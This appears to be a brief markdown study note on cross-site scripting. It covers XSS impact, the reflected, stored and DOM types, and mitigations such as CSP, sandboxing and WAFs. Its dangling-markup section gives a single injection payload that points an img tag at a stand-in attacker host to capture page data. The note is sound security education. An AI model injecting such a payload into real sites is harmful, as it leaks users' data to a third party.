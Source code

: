 # Cross-Site Scripting (XSS)

### Impact

Allows attacker to:
- circumvent same origin policy
- masquerade as victim
- access victim's data

## XSS Type

### Reflected XSS
When an application receives data in an HTTP request and includes the data in the immediate response in an unsafe way.

### Stored XSS
When an application receives data and includes the data in an unsafe manner in later responses.

### DOM XSS
When an application contains client-side JavaScript that processes data in an unsafe way.

## Extension of XSS attack

### Dangling Markup Injection
Technique for captureing data cross-domain in situations where a full XSS attack is not possible.
Inject payload like below to tags that contain value that is unfiltered.
```
"><img src='//attacker-website.com?
```

## Mitigation Type

### Content Security Policy
CSP is a set of directives that control which resources a web page can load, such as JavaScript, CSS, and images. When a website specifies a CSP, the browser blocks requests for assets that don't come from the specified sources.

### Browser Sandbox
Present the content of the webpage on another domain so if an XSS vulnerability exist the JavaScript will not execute on the important domain.

### Web Application Firewall
Using WAF to directly filter out potentially malicious input.
